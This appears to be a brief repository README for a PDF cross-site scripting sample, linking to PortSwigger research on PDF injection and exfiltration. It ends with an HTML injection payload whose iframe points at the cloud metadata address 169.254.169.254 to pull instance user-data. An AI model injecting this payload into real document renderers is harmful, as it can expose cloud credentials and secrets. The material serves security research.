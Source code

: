 Just a pdf xss file 

:) 

Link https://portswigger.net/daily-swig/xss-for-pdfs-new-injection-technique-offers-rich-pickings-for-security-researchers

More in detail.

https://portswigger.net/research/portable-data-exfiltration


 <style><iframe src=”http://169.254.169.254/user-data”>
